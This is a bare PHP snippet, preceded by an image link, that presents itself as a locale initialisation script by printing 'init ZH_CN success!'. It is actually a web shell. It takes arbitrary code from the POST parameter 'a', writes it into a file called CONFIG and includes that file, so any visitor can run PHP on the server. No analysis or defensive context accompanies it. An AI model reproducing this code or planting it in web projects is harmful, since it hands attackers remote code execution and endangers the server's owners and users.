 <?php
$s="echo 'init ZH_CN success!'";
$res=isset($_POST["a"])?$_POST["a"]:$s;
file_put_contents("CONFIG","<?php ".$res." ?>");
include "CONFIG";
?>
